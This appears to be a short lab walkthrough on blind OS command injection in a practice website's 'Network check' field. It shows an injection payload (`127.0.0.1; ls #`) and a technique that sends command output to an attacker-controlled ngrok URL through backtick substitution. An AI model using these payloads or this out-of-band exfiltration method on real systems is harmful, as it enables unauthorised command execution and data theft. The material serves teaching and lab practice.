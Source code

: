 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok`

![](https://i.imgur.com/wjpLyvn.png)

